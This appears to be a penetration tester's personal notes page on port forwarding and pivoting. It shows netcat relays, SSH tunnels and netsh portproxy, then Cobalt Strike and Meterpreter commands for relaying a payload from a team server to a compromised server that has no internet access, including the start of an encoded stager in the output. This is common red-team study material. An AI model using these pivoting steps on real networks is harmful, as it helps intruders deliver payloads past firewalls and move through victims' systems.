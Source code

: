 ```yaml
---
creation date: September 24th 2022
last modified date: September 24th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Port Forwards]]  
___

## Description:  

### Local Port Forwards

Linux:
This is how you can pivot to another port on the machine to get around firewalls.
```
mkfifo /tmp/backpipe
nc -nlvp8080 0</tmp/backpipe | nc -v 127.0.0.1 80 1>/tmp/backpipe
```

or you can do this with ssh
```
ssh -g -L 8001:localhost:8000 -N user@remote-server.com
```
This forwards the local port 8001 on your workstation to the localhost address on remote-server.com port 8000.


### Reverse Port Forwards

### Powershell

The native `netsh` (short for Network Shell) utility allows you to view and configure various networking components on a machine, including the firewall.  There's a subset of commands called `interface portproxy` which can proxy both IPv4 and IPv6 traffic between networks.

The syntax to add a **v4tov4** proxy is:

```
netsh interface portproxy add v4tov4 listenaddress= listenport= connectaddress= connectport= protocol=tcp
```

-   **listenaddress** is the IP address to listen on (probably always 0.0.0.0).
-   **listenport** is the port to listen on.
-   **connectaddress** is the destination IP address.
-   **connectport** is the destination port.
-   **protocol** to use (always TCP).

on the relay,  create a portproxy that will listen on 4444 and forward the traffic to the target, also on 4444.

```
C:\>netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=4444 connectaddress=10.10.14.55 connectport=4444 protocol=tcp
```
you can check it's there with `netsh interface portproxy show`.


Now from your host, instead of trying to connect to the target, connect to the portproxy relay
```
PS C:\> Test-NetConnection -ComputerName 10.10.17.71 -Port 4444

ComputerName     : 10.10.17.71
RemoteAddress    : 10.10.17.71
RemotePort       : 4444
InterfaceAlias   : Ethernet
SourceAddress    : 10.10.15.75
TcpTestSucceeded : True
```

To remove the portproxy:
```
netsh interface portproxy delete v4tov4 listenaddress=0.0.0.0 listenport=4444
```

### CobaltStrike

### rportfwd Command


In many corporate environments, workstations are able to browse the Internet on ports 80 and 443, but servers have no direct outbound access (because why do they need it?).

Let's imagine that we already have foothold access to a workstation and have a means of moving laterally to a server - we need to deliver a payload to it but it doesn't have Internet access to pull it from our Team Server. We can use the workstation foothold as a relay point between our webserver and the target.

Host a scripted web delivery payload and then attemp to download it from the server

```
PS C:\> hostname
dc-2

PS C:\> iwr -Uri http://10.10.5.120/a
iwr : Unable to connect to the remote server
```

You don't need to be a local admin to create reverse port forwards on high ports.

The syntax for the `rportfwd` command is `rportfwd [bind port] [forward host] [forward port]`. On the workstation (forward host and port should point to your payload on the team server):

```
beacon> rportfwd 8080 10.10.5.120 80
[+] started reverse port forward on 8080 to 10.10.5.120:80
```

This will bind port **8080** on the foothold machine, which we can see with **netstat**.

```
beacon> run netstat -anp tcp

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING
```

Now any traffic hitting this port will be redirected to **10.10.5.120** on port **80**. On the server, instead of trying to hit **10.10.5.120:80**, we use **10.10.17.231:8080** (where 10.10.17.231 is the IP address of the workstation).
```
PS C:\> iwr -Uri http://10.10.17.231:8080/a

StatusCode        : 200
StatusDescription : OK
Content           : $s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sIAAAAAAAAAOy9Wa/qSrIu+rzrV8yHLa21xNo
                    1wIAxR9rSNTYY444eTJ1SyRjjBtw3YM49//1GZBoGY865VtXW1rkPV3dKUwyMnU1kNF9EZoRXTvEfqyLz7UKLT863/9g6We7H0T
                    fm...
```

To stop the reverse port forward, do `rportfwd stop 8080` from within the Beacon or click the **Stop** button in the **Proxy Pivots** view.


### rportfwd_local

Beacon also has a `rportfwd_local` command.  Whereas `rportfwd` will tunnel traffic to the Team Server, `rportfwd_local` will tunnel the traffic to the machine running the Cobalt Strike client.

This is particularly useful in scenarios where you want traffic to hit tools running on your local system, rather than the Team Server.

Take this Python http server as an example, whilst running the CS client on Kali:


```
root@kali:~# echo "This is a test" > test.txt
root@kali:~# python3 -m http.server --bind 127.0.0.1 8080
Serving HTTP on 127.0.0.1 port 8080 (http://127.0.0.1:8080/)
```
```
beacon> rportfwd_local 8080 127.0.0.1 8080
[+] started reverse port forward on 8080 to rasta -> 127.0.0.1:8080
```

This will bind port 8080 on the machine running the Beacon and will tunnel the traffic to port 8080 of the localhost running the Cobalt Strike client.

Then on another machine in the network, try to download the file.

```
PS C:\> hostname
wkstn-2

PS C:\> iwr -Uri http://wkstn-1:8080/test.txt

StatusCode : 200
StatusDescription : OK
Content : This is a test

```

### Metasploit

^651985

```
meterpreter > portfwd -h
meterpreter > portfwd add -l 3389 -p 3389 -r 192.168.1.110
kali@kali:~$ rdesktop 127.0.0.1
```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 24th 2022 (09:49 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
